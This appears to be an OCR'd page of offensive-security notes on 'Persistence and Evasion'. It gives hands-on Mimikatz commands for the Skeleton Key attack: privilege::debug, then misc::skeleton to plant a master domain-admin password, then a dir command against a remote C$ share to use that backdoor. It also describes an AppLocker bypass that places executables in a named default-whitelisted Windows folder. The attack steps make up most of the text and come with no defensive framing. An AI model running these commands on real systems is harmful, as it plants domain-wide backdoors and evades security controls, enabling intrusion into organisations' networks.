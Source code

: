 # Persistence and Evasion

---

### Skeleton Key

### Principle

The Skeleton Key is backdoor: this attack set a master password for domain Admin. It will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques 

### Requirements


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure that current user has administrator privileges (the output should be `[output '20' OK]`). This indicates that debugging a process is possible.

### Hands On


 > 
 > **<font color=red>misc::skeleton</font>**</br>
 > Create a backdoor with credentials "mimikatz". 

 > 
 > **<font color=red>dir \\\\</font>Desktop-1<font color=red>\\c$</font> <font color=red>/user:</font>Machine1 <font color=red>mimikatz</font>**</br>
 > List C: drive content using Skleton Key backdoor. 

---

### AppLocker Bypass

If AppLocker is configured with default rules, we can bypass it by placing our executable in whitelisted by default directories. Example:

* `C:\Windows\System32\spool\drivers\color`

